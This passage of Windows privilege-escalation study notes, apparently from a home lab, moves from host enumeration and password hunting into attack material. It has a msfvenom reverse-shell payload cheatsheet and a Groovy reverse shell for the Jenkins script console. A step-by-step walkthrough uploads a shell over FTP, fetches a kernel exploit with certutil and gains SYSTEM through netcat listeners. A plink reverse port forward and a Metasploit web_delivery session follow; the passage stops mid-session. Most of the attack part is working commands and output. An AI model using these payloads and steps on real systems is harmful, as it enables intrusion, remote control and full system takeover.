  255.255.255.255  255.255.255.255         On-link   192.168.101.112    266
===========================================================================
Persistent Routes:
  None

IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    306 ::1/128                  On-link
 11    266 fe80::/64                On-link
 11    266 fe80::7801:8aec:1131:400f/128
                                    On-link
  1    306 ff00::/8                 On-link
 11    266 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None
```

### Show ports

```
c:\windows\system32\inetsrv>netstat -ano
netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:21             0.0.0.0:0              LISTENING       1256
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       704
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:554            0.0.0.0:0              LISTENING       796
  TCP    0.0.0.0:2869           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:10243          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       396
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       776
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       884
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       480
  TCP    0.0.0.0:49157          0.0.0.0:0              LISTENING       504
  TCP    192.168.101.112:139    0.0.0.0:0              LISTENING       4
  TCP    192.168.101.112:49188  192.168.101.117:4444   ESTABLISHED     1824
  TCP    [::]:21                [::]:0                 LISTENING       1256
  TCP    [::]:80                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       704
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:554               [::]:0                 LISTENING       796
  TCP    [::]:2869              [::]:0                 LISTENING       4
  TCP    [::]:10243             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       396
  TCP    [::]:49153             [::]:0                 LISTENING       776
  TCP    [::]:49154             [::]:0                 LISTENING       884
  TCP    [::]:49155             [::]:0                 LISTENING       480
  TCP    [::]:49157             [::]:0                 LISTENING       504
  UDP    0.0.0.0:5004           *:*                                    796
  UDP    0.0.0.0:5005           *:*                                    796
  UDP    0.0.0.0:5355           *:*                                    564
  UDP    127.0.0.1:1900         *:*                                    1516
  UDP    127.0.0.1:59787        *:*                                    1516
  UDP    192.168.101.112:137    *:*                                    4
  UDP    192.168.101.112:138    *:*                                    4
  UDP    192.168.101.112:1900   *:*                                    1516
  UDP    192.168.101.112:59786  *:*                                    1516
  UDP    [::]:5004              *:*                                    796
  UDP    [::]:5005              *:*                                    796
  UDP    [::]:5355              *:*                                    564
  UDP    [::1]:1900             *:*                                    1516
  UDP    [::1]:59785            *:*                                    1516
  UDP    [fe80::7801:8aec:1131:400f%11]:546  *:*                                    776
  UDP    [fe80::7801:8aec:1131:400f%11]:1900  *:*                                    1516
  UDP    [fe80::7801:8aec:1131:400f%11]:59784  *:*                                    1516
```

## Password Hunting

### Find files 

```
c:\Windows\System32>findstr /si password *.txt *.ini *.config
findstr /si password *.txt *.ini *.config
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1="Please enter your password."
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1="Please enter your password.";
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          >> Msg1="Please enter your password.";
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1                    Please enter your password.
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Please enter your password.
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1                           Please enter your password.
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1                           Please enter your password.
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:          Msg1="Please enter your password."
WindowsPowerShell\v1.0\en-US\about_hash_tables.help.txt:        Msg1                           "Please enter your password."
WindowsPowerShell\v1.0\en-US\about_remote_FAQ.help.txt:    name and password credentials on the local computer or the credentials
WindowsPowerShell\v1.0\en-US\about_remote_troubleshooting.help.txt:    2. Verify that a password is set on the workgroup-based computer. If a
WindowsPowerShell\v1.0\en-US\about_remote_troubleshooting.help.txt:       password is not set or the password value is empty, you cannot run
WindowsPowerShell\v1.0\en-US\about_remote_troubleshooting.help.txt:       To set password for your user account, use User Accounts in Control
WindowsPowerShell\v1.0\en-US\about_Return.help.txt:          function ScreenPassword($instance)
WindowsPowerShell\v1.0\en-US\about_Return.help.txt:          foreach ($a in @(get-wmiobject win32_desktop)) { ScreenPassword($a) }
WindowsPowerShell\v1.0\en-US\about_Return.help.txt:      This script checks each user account. The ScreenPassword function returns 
WindowsPowerShell\v1.0\en-US\about_Return.help.txt:      the name of any user account that does not have a password-protected 
WindowsPowerShell\v1.0\en-US\about_Return.help.txt:      screen saver. If the screen saver is password protected, the function 
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:    The MakeCert.exe tool will prompt you for a private key password. The 
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:    password ensures that no one can use or access the certificate without
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:    your consent. Create and enter a password that you can remember. You will 
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:    use this password later to retrieve the certificate.
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:        6. Type a password, and then type it again to confirm.
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:        4. On the Password page, select "Enable strong private key protection",
WindowsPowerShell\v1.0\en-US\about_Signing.help.txt:           and then enter the password that you assigned during the export 
FINDSTR: Cannot open restore\MachineGuid.txt
```

## Antivirus and Firewall Enumeration

### Check Windows Defender

```
c:\windows\system32\inetsrv>sc query windefend
sc query windefend

SERVICE_NAME: windefend 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

### List all the services running

```
c:\windows\system32\inetsrv>sc queryex type= service
SERVICE_NAME: DPS
DISPLAY_NAME: Diagnostic Policy Service
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1096
        FLAGS              : 

SERVICE_NAME: eventlog
DISPLAY_NAME: Windows Event Log
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 776
        FLAGS              : 

SERVICE_NAME: EventSystem
DISPLAY_NAME: COM+ Event System
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1020
        FLAGS              : 

SERVICE_NAME: ftpsvc
DISPLAY_NAME: Microsoft FTP Service
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
        PID                : 1256
        FLAGS              : 
.....
```

### Check Firewall configuration

**Check the state of windows firewall**

```
c:\windows\system32\inetsrv>netsh firewall show state
netsh firewall show state

Firewall status:
-------------------------------------------------------------------
Profile                           = Standard
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Enable
Group policy version              = Windows Firewall
Remote admin mode                 = Disable

Ports currently open on all network interfaces:
Port   Protocol  Version  Program
-------------------------------------------------------------------
21     TCP       Any      (null)
80     TCP       Any      (null)

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .
```

**Show Firewall configuration**

```
c:\windows\system32\inetsrv>netsh firewall show config
netsh firewall show config

Domain profile configuration:
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Enable

Allowed programs configuration for Domain profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Domain profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------
21     TCP       Enable  Inbound               FTP Server
80     TCP       Enable  Inbound               IIS Web Server

ICMP configuration for Domain profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Standard profile configuration (current):
-------------------------------------------------------------------
Operational mode                  = Enable
Exception mode                    = Enable
Multicast/broadcast response mode = Enable
Notification mode                 = Enable

Service configuration for Standard profile:
Mode     Customized  Name
-------------------------------------------------------------------
Enable   No          File and Printer Sharing
Enable   No          Network Discovery

Allowed programs configuration for Standard profile:
Mode     Traffic direction    Name / Program
-------------------------------------------------------------------

Port configuration for Standard profile:
Port   Protocol  Mode    Traffic direction     Name
-------------------------------------------------------------------
21     TCP       Enable  Inbound               FTP Server
80     TCP       Enable  Inbound               IIS Web Server

ICMP configuration for Standard profile:
Mode     Type  Description
-------------------------------------------------------------------
Enable   2     Allow outbound packet too big

Log configuration:
-------------------------------------------------------------------
File location   = C:\Windows\system32\LogFiles\Firewall\pfirewall.log
Max file size   = 4096 KB
Dropped packets = Disable
Connections     = Disable

IMPORTANT: Command executed successfully.
However, "netsh firewall" is deprecated;
use "netsh advfirewall firewall" instead.
For more information on using "netsh advfirewall firewall" commands
instead of "netsh firewall", see KB article 947709
at http://go.microsoft.com/fwlink/?linkid=121488 .
```


## Automated Tools 

### Website Links

011 WinPEAS
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

011 Windows-PrivEsc-Checklist
https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation

011 Sherlock
https://github.com/rasta-mouse/Sherlock

011 Watson
https://github.com/rasta-mouse/Watson

011 PowerUp
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

011 JAWS
https://github.com/411Hall/JAWS

011 Windows-Exploit-Suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester

011 Metasploit-Local-Exploit-Suggester
https://blog.rapid7.com/2015/08/11/metasploit-local-exploit-suggester-do-less-get-more/

011 Seatbelt
https://github.com/GhostPack/Seatbelt

011 SharpUp
https://github.com/GhostPack/SharpUp

### Executables

- winPEAS.exe
- Seatbelt.exe (compile)
- Watson.exe (compile)
- SharpUp.exe (compile)

### Powershell

- Sherlock.ps1
- PoerUp.ps1
- jaws-enum.ps1

### Other

- windows-exploit-suggester.py (local)
- Exploit Suggester (Metasploit)


### Winpeas

```
C:\Users\sherwinowen\Documents\shared_folder>winPEASx64.exe

             *((,.,/((((((((((((((((((((/,  */
      ,/*,..*((((((((((((((((((((((((((((((((((,
    ,*/((((((((((((((((((/,  .*//((//**, .*(((((((*
    ((((((((((((((((**********/########## .(* ,(((((((
    (((((((((((/********************/####### .(. (((((((
    ((((((..******************/@@@@@/***/###### ./(((((((
    ,,....********************@@@@@@@@@@(***,#### .//((((((
    , ,..********************/@@@@@%@@@@/********##((/ /((((
    ..((###########*********/%@@@@@@@@@/************,,..((((
    .(##################(/******/@@@@@/***************.. /((
    .(#########################(/**********************..*((
    .(##############################(/*****************.,(((
    .(###################################(/************..(((
    .(#######################################(*********..(((
    .(#######(,.***.,(###################(..***.*******..(((
    .(#######*(#####((##################((######/(*****..(((
    .(###################(/***********(##############(...(((
    .((#####################/*******(################.((((((
    .(((############################################(..((((
    ..(((##########################################(..(((((
    ....((########################################( .(((((
    ......((####################################( .((((((
    (((((((((#################################(../((((((
        (((((((((/##########################(/..((((((
              (((((((((/,.  ,*//////*,. ./(((((((((((((((.
                 (((((((((((((((((((((((((((((/

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only.Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own networks and/or with the network owner's permission.

  WinPEAS v2.0-beta by @carlospolopm, makikvues(makikvues2[at]gmail[dot]com)

       /---------------------------------------------------------------------------\
       |                             Do you like PEASS?                            |
       |---------------------------------------------------------------------------|
       |         Become a Patreon    :     https://www.patreon.com/peass           |
       |         Follow on Twitter   :     @carlospolopm                           |
       |---------------------------------------------------------------------------|
       |                                 Thank you!                                |
       \---------------------------------------------------------------------------/

  [+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

   [?] You can find a Windows local PE Checklist here: https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...
   - Creating AppLocker bypass list...
   - Creating files/directories list for search...


  ==========================================(System Information)==========================================

  [+] Basic System Information
   [?] Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#kernel-exploits
    Hostname: DESKTOP-H5AKSBG
    ProductName: Windows 10 Pro
    EditionID: Professional
    ReleaseId: 1909
    BuildBranch: 19h1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC+08:00) Kuala Lumpur, Singapore
    IsVirtualMachine: True
    Current Time: 3/2/2021 5:18:49 PM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB4601056, KB4497727, KB4517245, KB4535680, KB4580325, KB4586863, KB4598479, KB4601395, KB5001028,

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1909 (18363)
 [*] Enumerating installed KBs...
 [*] Finished. Found 0 vulnerabilities.
 .....
```

### Metasploit  Exploit Suggester

```
meterpreter > run post/multi/recon/local_exploit_suggester 

[*] 192.168.101.112 - Collecting local exploits for x64/windows...
[*] 192.168.101.112 - 24 exploit checks are being tried...
[+] 192.168.101.112 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 192.168.101.112 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 192.168.101.112 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 192.168.101.112 - exploit/windows/local/cve_2020_1054_drawiconex_lpe: The target appears to be vulnerable.
[+] 192.168.101.112 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.101.112 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
[+] 192.168.101.112 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
```

### wesng

https://github.com/bitsadmin/wesng

1. Obtain the latest database of vulnerabilities by executing the command 

```
# python wes.py --update
Windows Exploit Suggester 0.98 ( https://github.com/bitsadmin/wesng/ )
[+] Updating definitions
[+] Obtained definitions created at 20210224
```

2. Use Windows' built-in `systeminfo.exe` tool to obtain the system information of the local system, or from a remote system using `systeminfo.exe /S MyRemoteHost`, and redirect this to a file: `systeminfo > systeminfo.txt`
3. Execute WES-NG with the systeminfo.txt output file as the parameter: `wes.py systeminfo.txt`

```
python wes.py sysinfo.txt 
Windows Exploit Suggester 0.98 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 7 for x64-based Systems
    - Generation: 7
    - Build: 7600
    - Version: None
    - Architecture: x64-based
    - Installed hotfixes (38): KB2032276, KB2079403, KB2160329, KB2183461, KB2272691, KB2286198, KB972270, KB974431, KB974571, KB975467, KB975496, KB975560, KB976422, KB976662, KB977074, KB978542, KB978601, KB978637, KB978886, KB979099, KB979309, KB979482, KB980195, KB980218, KB980232, KB980408, KB980436, KB980846, KB981078, KB981332, KB981793, KB981852, KB982110, KB982214, KB982664, KB982665, KB982666, KB982799
[+] Loading definitions
    - Creation date of definitions: 20210224
[+] Determining missing patches
[+] Found vulnerabilities

Date: 20130409
CVE: CVE-2013-1283
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1291
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a

Date: 20130409
CVE: CVE-2013-1292
KB: KB2840149
Title: Vulnerabilities in Kernel-Mode Driver Could Allow Elevation Of Privilege
Affected product: Windows 7 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
....
```


## Escalation Path Kernel Exploits

### Website Links

013 Windows-Kernel-Exploits
https://github.com/SecWiki/windows-kernel-exploits  

014 Kitrap0d-Information
https://seclists.org/fulldisclosure/2010/Jan/341

015 MS10-059
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

### What is a Kernel?

- A computer program that controls everything in the system
- Facilitates interactions between hardware and software components
- A translator





### MSFVenom Reverse Shell Payload Cheatsheet (with & without Meterpreter)

#### Non-Meterpreter Binaries

Staged Payloads for Windows

| x86  | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

| x86  | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

| x86  | `msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

Stageless Payloads for Linux

| x86  | `msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

------

#### Non-Meterpreter Web Payloads

| asp  | `msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp` |
| ---- | ------------------------------------------------------------ |
| jsp  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp` |
| war  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war` |
| php  | `msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php` |

------

#### Meterpreter Binaries

Staged Payloads for Windows

| x86  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Stageless Payloads for Windows

| x86  | `msfvenom -p windows/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe` |

Staged Payloads for Linux

| x86  | `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

Stageless Payloads for Linux

| x86  | `msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf` |
| ---- | ------------------------------------------------------------ |
| x64  | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf` |

------

#### Meterpreter Web Payloads

| asp  | `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp` |
| ---- | ------------------------------------------------------------ |
| jsp  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp` |
| war  | `msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > example.war` |
| php  | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php` |

### Web Shells

```
# ls -l /usr/share/webshells 
total 24
drwxr-xr-x 2 root root 4096 Nov 17 07:22 asp
drwxr-xr-x 2 root root 4096 Nov 17 07:22 aspx
drwxr-xr-x 2 root root 4096 Nov 17 07:22 cfm
drwxr-xr-x 2 root root 4096 Nov 17 07:22 jsp
lrwxrwxrwx 1 root root   19 Nov 17 07:24 laudanum -> /usr/share/laudanum
drwxr-xr-x 2 root root 4096 Nov 17 07:22 perl
drwxr-xr-x 3 root root 4096 Nov 17 07:22 php
```


### Metasploit (ms10_015_kitrap0d) 

```
meterpreter > background 
[*] Backgrounding session 5...

msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d 
[*] Using configured payload windows/meterpreter/reverse_tcp

sf6 exploit(windows/local/ms10_015_kitrap0d) > set session 5
session => 5

msf6 exploit(windows/local/ms10_015_kitrap0d) > set lhost 192.168.101.117
lhost => 192.168.101.117

msf6 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
lport => 5555

msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

### Manual Escalation

1. Create payload

````
# # msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.101.117 LPORT=443 -f exe > shell-x64.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
````

2. Copy payload to victims computer thru FTP

```
# ftp 192.168.101.103
Connected to 192.168.101.103.
220 Microsoft FTP Service
Name (192.168.101.103:kali): sherwinowen
331 Password required for sherwinowen.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put shell-x64.exe 
local: shell-x64.exe remote: shell-x64.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
7168 bytes sent in 0.00 secs (27.9018 MB/s)

```

3.  Create listener

```
# nc -nvlp 4444                 
listening on [any] 4444 ...
```

4. Run command c:\inetpub\wwwroot\shell-x64.exe in browser (http://192.168.101.103/cmdasp.aspx)
5. You will be connected to windows machine

```
# nc -nvlp 443                                                                             
listening on [any] 443 ...
connect to [192.168.101.117] from (UNKNOWN) [192.168.101.103] 49241
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

6. Download the exploit and run http server using python

```
# cd /home/kali/Downloads
# wget https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe

# python -m SimpleHTTPServer 80
```

7. Download the exploit to the windows machine

```
c:\Windows\Temp>certutil -urlcache -f http://192.168.101.117/MS10-059/MS10-059.exe ms.exe
certutil -urlcache -f http://192.168.101.117/MS10-059.exe ms1.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\Windows\Temp>ms.exe 192.168.101.117 5555
```

8. Check netcat listener 5555

```
# nc -nvlp 5555                                                                           
listening on [any] 5555 ...
connect to [192.168.101.117] from (UNKNOWN) [192.168.101.103] 49241
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\temp>whoami
whoami
nt authority\system
```


## Port Forwarding using plink.exe 

1. Permit root login in ssh
2. Download plink.exe in windows target machine
3. Run the following commands

```
c:\windows\temp>plink.exe -l root -pw [password] -R 445:127.0.0.1:445 192.168.101.117


root@kali:~# winexe -U sherwinowen%password //127.0.0.1 "cmd.exe"
```


## Escalation Path Windows Subsystem for Linux


## Token Impersonation

**What are tokens?**

- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file.
- Cookie for computers

**Types of token**

- **Delegate** - Created for logging into a machine or using Remote Desktop
- **Impersonate** - "non-interactive" susch as attaching network drive or a domain logon script


### Website Links

024 Rotten-Potato-Privilege-Escalation-from-Service-Accounts-to-SYSTEM
https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

024 Juicy-Potato-Github
https://github.com/ohpe/juicy-potato

025 Groovy-Reverse-Shell
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76

027 Alternate-Data-Streams
https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/

### Jenkins Exploit

1. Run **Groovy reverse shell** in Jenkins Script Console 

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

2. Start netcat listener

```
root@kali:~# nc -nvlp 8044
```

3. Enumeration 

```
C:\Windows\Temp> whoami	

C:\Windows\Temp> whoami	/priv
```

4. Run metasploit

```
msf6 > use exploit/multi/script/web_delivery 
[*] Using configured payload python/meterpreter/reverse_tcp

msf6 exploit(multi/script/web_delivery) > options 

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python


msf6 exploit(multi/script/web_delivery) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH
   3   Regsvr32
   4   pubprn
   5   SyncAppvPublishingServer
   6   PSH (Binary)
   7   Linux
   8   Mac OS X


msf6 exploit(multi/script/web_delivery) > set target 2
target => 2
msf6 exploit(multi/script/web_delivery) > 

msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/script/web_delivery) > set SRVHOST 192.168.101.117
SRVHOST => 192.168.101.117

msf6 exploit(multi/script/web_delivery) > set LHOST 192.168.101.117
LHOST => 192.168.101.117

msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.101.117:4444 
[*] Using URL: http://192.168.101.117:8080/Onu21rFb
[*] Server started.
[*] Run the following command on the target machine:
